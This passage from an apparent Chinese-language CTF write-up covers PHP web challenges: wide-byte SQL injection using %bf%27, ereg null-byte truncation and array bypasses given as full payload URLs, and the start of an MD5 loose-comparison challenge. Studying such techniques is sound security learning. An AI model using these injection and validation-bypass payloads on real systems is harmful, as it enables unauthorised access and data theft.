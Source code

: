 宽字节注入

![20220720142345](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720142345.png)

`'` `"` 和 `\` 都会被转义, 可以找到一个数据, 让他和后面被转义之后的 `\'` 中的 `\` 连在一起构成一个宽字符, 从而 "吃掉" 反斜杠, 让引号单独露出来

网上使用的是 `%bf%27`

![20220720142727](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720142727.png)

但我这里试了一下, 使用 `啊'` 也是可以的

![20220720142857](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720142857.png)

之后就是正常的注入流程

## /x00

```php
<?php
if (isset ($_GET['nctf'])) {
    if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
        echo '必须输入数字才行';
    else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
        die('Flag: '.$flag);
    else
        echo '骚年，继续努力吧啊~';
    }
?>
```

PHP 中的正则匹配会有00截断漏洞, 就是说程序遇到00之后就会终止, 不会再往下匹配

但 strpos 没有这个问题

`http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf=123%00%23biubiubiu`

或者使用数组

`http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf[]=%23biubiubiu`

## bypass again

```php
<?php
if (isset($_GET['a']) and isset($_GET['b'])) {
if ($_GET['a'] != $_GET['b'])
if (md5($_GET['a']) == md5($_GET['b']))
die('Flag: '.$flag);
else
print 'Wrong.';
}
?>
```
